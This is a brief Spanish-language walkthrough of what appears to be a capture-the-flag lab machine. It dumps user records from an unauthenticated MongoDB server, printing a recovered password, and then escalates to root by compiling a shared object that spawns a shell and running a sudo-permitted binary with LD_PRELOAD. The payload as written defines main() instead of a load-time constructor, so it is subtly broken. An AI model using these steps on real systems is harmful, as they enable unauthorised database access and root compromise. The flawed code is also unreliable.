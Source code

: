 IP: 10.10.103.120

1. Explotación de MongoDB
bash
Copy
mongo 10.10.103.120:27017
show dbs
use admin
db.user.find()
Credenciales: webdeveloper:BahamasChapp123!@#

2. Escalada con LD_PRELOAD
bash
Copy
echo 'int main(){setuid(0);system("/bin/bash");}' > evil.c
gcc -shared -o evil.so evil.c -fPIC
sudo LD_PRELOAD=./evil.so /usr/bin/sky_backup_utility